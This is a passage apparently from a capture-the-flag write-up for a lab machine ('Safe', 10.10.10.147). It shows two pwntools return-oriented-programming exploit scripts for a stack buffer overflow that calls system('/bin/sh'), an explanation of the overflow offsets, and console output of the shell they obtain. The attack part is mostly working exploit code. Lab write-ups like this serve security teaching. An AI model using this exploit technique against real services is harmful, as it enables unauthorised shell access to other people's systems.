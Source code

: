 ```
                         # In the latter case the first entry is the terminal and the rest are default arguments.
p = gdb.debug('./myapp', 'b main')
context(os='linux', arch='amd64')

junk = ("A"*112).encode() # Converting string to bytes
pop_r13 = p64(0x401206)# ropper --search "pop r13" -> 0x0000000000401206: pop r13; pop r14; pop r15; ret;
                       # POP removes the element from the top of the hardware-supported stack into the specified operand
                       # RSP -> R13
                       # if we write system address to R13 then test() will return to R13
null = p64(0x0)
system = p64(0x40116e)
bin_sh = "/bin/sh\x00".encode()
test = p64(0x401152)

#p.recvuntil('What do you want me to echo back?')
p.sendline(junk + bin_sh + pop_r13 + system + null + null + test)
p.interactive()
```
We set junk to 112 and not 120 because the execution points to what you inject in memory after 120:  
* 0-112 is the 'legal' buffer
* 112-120 overwrites the RBP
* 120 and on overwrites RSP
As stated previously when main() function comes to RET, it pops and executes functions queued on the stack, so, what's after 120.
Now we can edit our exploit to attach it to a remote source and get a shell:
```
from pwn import *

context(terminal=['tmux','new-window']) # Default terminal used by pwnlib.util.misc.run_in_new_terminal().
                         # Can be a string or an iterable of strings.
                         # In the latter case the first entry is the terminal and the rest are default arguments.
#p = gdb.debug('./myapp', 'b main')
p = remote('10.10.10.147', 1337)
context(os='linux', arch='amd64')

junk = ("A"*112).encode() # Converting string to bytes
pop_r13 = p64(0x401206)# ropper --search "pop r13" -> 0x0000000000401206: pop r13; pop r14; pop r15; ret;
                       # POP removes the element from the top of the hardware-supported stack into the specified operand
                       # RSP -> R13
                       # if we write system address to R13 then test() will return to R13
null = p64(0x0)
system = p64(0x40116e)
bin_sh = "/bin/sh\x00".encode()
test = p64(0x401152)

#p.recvuntil('What do you want me to echo back?')
p.sendline(junk + bin_sh + pop_r13 + system + null + null + test)
p.interactive()
```
and we get a shell as 'user':   
```
[root@kali Safe ]$ python3 exploit.py
[+] Opening connection to 10.10.10.147 on port 1337: Done
[*] Switching to interactive mode
 04:46:20 up 1 day,  1:46,  0 users,  load average: 0.00, 0.00, 0.00
$ id
```